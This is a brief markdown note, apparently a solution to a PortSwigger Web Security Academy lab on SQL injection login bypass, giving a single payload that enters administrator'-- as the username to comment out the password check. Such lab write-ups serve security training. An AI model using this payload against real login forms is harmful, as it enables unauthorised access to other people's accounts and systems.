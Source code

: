 # Lab

https://portswigger.net/web-security/sql-injection/lab-login-bypass

## Payload

```sql
username: administrator'--
```